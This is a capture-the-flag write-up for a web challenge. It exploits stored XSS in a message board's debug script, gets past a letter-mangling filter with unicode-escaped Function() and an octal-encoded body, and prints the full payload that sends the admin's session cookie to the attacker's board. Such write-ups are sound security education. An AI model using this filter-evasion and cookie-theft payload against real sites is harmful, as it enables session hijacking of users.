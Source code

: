 #  Robberts secure messaging service
**Challenge author:** Jimmie Rudvall   
**Category:** Web


## Challenge Description
After years of operating in the shadows, the infamous Robbert — master thief and tech-savvy bandit — has decided to trade in his lockpicks for a keyboard. Inspired by his misadventures and the constant need for secrecy in his line of work, Robbert has launched Robber's Messageboard, a secure communication platform designed to allow robbers to publicly communicate in a secure way.

Robbert has decided to launch a beta version of his message board to be prove to himself that his service is just as well architectured and built as he intend it to be. He's hoping that responsible hackers can leave a message in the unlikely case of a vulnerability being found.

Driven by a combination of excitment and paranoia, Robbert will log in every fifth minute to watch his beautiful creation in action and once every hour to remove all spammy messages, ensuring a good experience for all you enthusiatic robbers!


Author: Jimmie Rudvall

https://rorovovarorsospoprorakokeror.appsec.nu/ 

## Solution
When visiting the website, it prompts the user to either login or to create an account. Once an account has been created, messages can be written and placed onto a message board. 

![message board](robberts_secure_messaging_service/board.png)

If I write a message onto the board, we see that for many characters, some extra characters are appended.  For example, each instance of the character r will be modified and become ror and each f will become fof, and so on. By testing different inputs, I determined that all letters, big or small, will be modified, except for the letters e,i,y,a,o,u which are not modified. Numbers and special characters are also unchanged.

Checking the source code of the website, we see that there is a script tag with some debug code. In this debug code, our inputted message is placed, which can possibly be used to execute JS code. 

![debug code](robberts_secure_messaging_service/script.png)

Let's see if we can exploit this. To stop the string, we'll begin with a `"` after which we will end the `console.log` function by adding `);`. Once the function is ended, some JS payload can be placed, which will be exeuted by the browser. To make the JS valid, we'll add `//` to the end, to make the junk code into a comment. Combining all, we get a possible exploit that looks like this:
`"); PAYLOAD //`.

Let's try it out with a simple string as the payload. The inputed message will be `"); 123abc //`. We see that the string `123abc` is outside the `console.log` function, and that the browser tried to execture the code, but failed since it is not valid JS code. 


![test exploit 1](robberts_secure_messaging_service/test_exploit1.png)


![test exploit 1 response](robberts_secure_messaging_service/test_exploit1_response.png)

We now know that we can craft a message which will make a readers browser execute arbritrary JS code. However, we still have two problems. The first problem being that we cannot put normal JS code as the payload, since most letters will be modified, chaning it to invalid JS code. The other problem is that we still need to identify a way we can use the stored XSS vulnerability.


When XSS vulnerability are identified, the first thing I check is if the cookies used by the website can be accessed by JS code. 
![website cookie](robberts_secure_messaging_service/cookie.png)
We see that the `HttpOnly` attribute is set to False. This allows client-side code, such as JS, to access the cookie. Therefore, the goal of our payload will be to read and transfer the cookie of the Robbert.

We now need to solve the other problem, finding a way to send a payload which is not modified by the application. To do this, we need to in some way not use most letters. After doing some research, i found that JS code can be executed using [unicode escape sequences](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Regular_expressions/Character_escape). The problem with using unicode escape sequences is that it may still contain some characters which are modified by the web app, since it uses hexadecimal. To limit the usage of unicode, we will choese a function which can execute JS by passing it a string containing JS code. The reason for this is that strings can be encoded using octal encoding, which will only contain the character `\` and numbers.

The JS function I chose is named `Function()`. This function will take a string as input and will execute it once it is called. The reason for choosing this function is that when encoding it into unicode, we get:
`\u0046\u0075\u006E\u0063\u0074\u0069\u006F\u006E`
This unicode string mostly only contains characters which are not changed by the web app. The only problem is the `\u006F` which conatins the letter F. However, the unicode `\u006F` represents the letter `o`, which is unmodified by the web app. This allows us to change the unicode `\u006F` with `o`, giving us the string:
`\u0046\u0075\u006E\u0063\u0074\u0069o\u006E`.

We can now add this to our message:

`"); a=\u0046\u0075\u006E\u0063\u0074\u0069o\u006E; a("PAYLOAD")() //`

This message will allows us to execute any JS code in a readers browser by putting octal encoded JS code in the `PAYLOAD` field.

The payload I used will post a message of the readers cookie to my user message board. 
```
var xhr = new XMLHttpRequest();
xhr.open('POST', 'https://rorovovarorsospoprorakokeror.appsec.nu/messageboard.php', true);
let formData = new FormData();
formData.append("message", document.cookie);
document.cookie = "PHPSESSID=v9j7uk97u29vpunef5cs5i8f9v";
xhr.send(formData);
```
> Note: The document.cookie assignment need to be changed to your cookie to post the message to your board.

Encoding this to octal and putting it as the payload, gives the final message of:

```
"); a=\u0046\u0075\u006e\u0063\u0074\u0069o\u006e; a("\166\141\162\40\170\150\162\40\75\40\156\145\167\40\130\115\114\110\164\164\160\122\145\161\165\145\163\164\50\51\73\40\170\150\162\56\157\160\145\156\50\47\120\117\123\124\47\54\40\47\150\164\164\160\163\72\57\57\162\157\162\157\166\157\166\141\162\157\162\163\157\163\160\157\160\162\157\162\141\153\157\153\145\162\157\162\56\141\160\160\163\145\143\56\156\165\57\155\145\163\163\141\147\145\142\157\141\162\144\56\160\150\160\47\54\40\164\162\165\145\51\73\40\154\145\164\40\146\157\162\155\104\141\164\141\40\75\40\156\145\167\40\106\157\162\155\104\141\164\141\50\51\73\40\146\157\162\155\104\141\164\141\56\141\160\160\145\156\144\50\42\155\145\163\163\141\147\145\42\54\40\144\157\143\165\155\145\156\164\56\143\157\157\153\151\145\51\73\40\144\157\143\165\155\145\156\164\56\143\157\157\153\151\145\40\75\40\42\120\110\120\123\105\123\123\111\104\75\166\71\152\67\165\153\71\67\165\62\71\166\160\165\156\145\146\65\143\163\65\151\70\146\71\166\42\73\40\170\150\162\56\163\145\156\144\50\146\157\162\155\104\141\164\141\51\73")()//
```

After posting this message and waiting five minues, Robberts flag was posted on my message board. 

```
foflolagog=O24%7BobRoroRor34lololol_RoroRorObobobob8o83rororor505_7074kokokoke_cocococ0oKokoKok%21E505_wowowowi707HohoHoh_momomom1LoloLolKokoKok%7Dod;
```
Removing the of, ol, og, etc, we get the flag: **`O24{RoR34lol_RoRObob8o83ror505_7074koke_coc0oKoK!E505_wowi707HoH_mom1LoLKoK}`**

> Note: There is possibly another way to create a message that can be used to execute JS code. There is a languange, which is a subset of JS, called [JSFuck](https://en.wikipedia.org/wiki/JSFuck). This allows any JS code to be executed only using the characters `[]()!+`. This contains no letters, which could solve the challenge. 